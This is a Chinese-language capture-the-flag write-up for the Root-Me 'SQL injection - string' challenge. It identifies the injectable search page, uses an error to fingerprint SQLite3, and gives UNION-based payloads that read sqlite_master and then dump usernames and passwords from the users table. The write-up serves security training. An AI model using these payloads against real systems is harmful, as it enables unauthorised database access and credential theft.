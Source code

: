 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[SQL injection - string](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-string)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/sql-injection-string/)]

------


SQLi 水题。关键是找到注入点。

查看页面源码，发现这题其实是有 3 个页面的：

- [`?action=news`](http://challenge01.root-me.org/web-serveur/ch19/?action=news)
- [`?action=login`](http://challenge01.root-me.org/web-serveur/ch19/?action=login)
- [`?action=recherche`](http://challenge01.root-me.org/web-serveur/ch19/?action=recherche)

虽然三个页面都有数据库查询操作，但是测试发现注入点在 [`?action=recherche`](http://challenge01.root-me.org/web-serveur/ch19/?action=recherche) 页面。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/01.png)

------------

首先确认数据库类型，输入 payload ：`'exp error'` 故意不闭合引号，尝试令 SQL 报错。

通过页面回显的异常信息，可以确认是 SQLite3 数据库。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/02.png)

在 SQLite3 中只有一个系统隐藏表 sqlite_master ，其表结构如下：

```sql
CREATE TABLE sqlite_master (
    type TEXT,
    name TEXT,
    tbl_name TEXT,
    rootpage INTEGER,
    sql TEXT
);
```

这张表存储了数据库中每个数据表的信息，可以通过它找到其他数据表。

构造跨表查询 payload ：`exp' or 1=1 union select name, sql from sqlite_master --`

从中找到账户表及其表结构 `users (CREATE TABLE users(username TEXT, password TEXT, Year INTEGER))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/03.png)

进一步构造 payload 跨表查询 users 的账号信息：

`exp' or 1=1 union select username, password from users --`

得到 admin 的密码，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
